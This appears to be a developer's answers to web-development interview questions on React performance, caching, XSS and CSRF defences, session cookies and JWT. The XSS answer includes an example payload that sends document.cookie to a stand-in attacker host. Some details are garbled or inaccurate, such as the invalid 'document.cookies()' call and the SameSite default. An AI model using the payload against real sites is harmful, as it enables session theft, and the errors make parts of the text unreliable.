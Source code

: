 1. What are some ways to prevent unnecessary re-renders in React, and when would you use each technique?

We have many ways to prevent unnecessary re-renders. Here is few of those
-using useMemo and useCallback hooks
-API Call Optimization with React Query
-Creating Memoized Selectors with Reselect
-React.memo or PureComponent
-sometime using useRef instead of useState

2. What are some practical uses of React Context and React Hooks?

React Context is for Providing data to the nested childrens without passing the props.
useState, useEffect, useRef are widly used to create a componenet and manage the state.

3. What are some other ways caching could be implemented for Part I? What are the differences and why might you choose one over the other?

For caching, we can use React Query, SWR, Apollo Client, RTK-Query. I am using React Query because it is really easy to use and also have good documentations.

4. What are some practical steps to prevent XSS and CSRF?

Cross-Site Request Forgery (CSRF) is a Web application security vulnerability where an attacker tricks end-users into performing unwanted actions in which the user is logged in. CSRF has others name like XSRF, sea surf, session riding, cross-site reference forgery, and hostile linking. With the help of social engineering, an attacker can trick the victim of a web application into executing malicious actions of the attacker’s choosing.

Cross-site scripting is also known as XSS. it is a very popular, dangerous, and favorable vulnerability of most of the Bug Hunters. XSS is a web security vulnerability that allows an attacker to fully compromise the vulnerable web application. if the victim is high privileged within a vulnerable site then the attacker can get full control of that site. The main purpose of XSS vulnerabilities is to steal the credentials of the victim. An XSS vulnerability is mainly a javascript technique. This vulnerability happens because of Developer didn’t pay attention to the user input filter.

A simple XSS payload looks like this:

<script>alert(document.cookies())</script>
<script>document.location.href=”
attackers.website/cookie=”>+document.cookie</script>

Anti-CSRF Tokens:

Use a token that is associated with a particular user and can be found as a hidden value in every state-changing form which is present on the web application. This token is called a CSRF Token.
CSRF token should be:
Unpredictable with high entropy.
Tied to the user’s session.
Strictly validated in every case before the relevant action is executed.
Same Site cookies:
CSRF occurs when the victim clicks on attacker.com and the request goes to bank.com including victim session_id. That is cross-site communication when the request comes from a third-party site such as xyz.com and the request goes to abc.com.
so, what happens if we are not providing the session_id then they don’t have any chance to authorize and csrf prevents. That thing provides do same site cookie features.
The same site cookie is a cookie that will only be sent if the request is coming from or originating from the same site. if the request comes from a third-party site, it will not attach the cookie.
There are three ways to set the same site attribute None, Lax and Strict.
None by default, Lax for top-level navigation bar or get request and Strict is disabled the cookies sent to third party sites.

XSS Prevention Techniques:
Filter input on arrival
Encode data on output
Use appropriate response headers
content Security policy
Implementing WAFs

5. When using traditional session cookies, what are the primary security concerns and mitigation techniques you might use for common attacks?

The two most common causes of cookie disclosure are browser vulnerabilities and cross-site scripting.
A major concern regarding sessions is the secrecy of the session identifier. If this is kept secret, there is no practical risk of session hijacking. With a valid session identifier, an attacker is much more likely to successfully impersonate one of your users.

6. What are some advantages and disadvantages of using JWT for authorization and authentication in a web application?

Pros
-No Database Table
-Simpler to use if careful
-Used across services

Cons
-Compromised Secret Key
-Cannot manage client from the server
-Cannot push Messages to clients
-Crypto-algo can be deprecated
-Data Overhead
-Complicated to understand

7. What are some new/interesting Web (browser), React, or Node.js features you are interested in, or have used recently for the first time?

Suspense, Server Components, Web Worker, Service Worker, Web Sockets
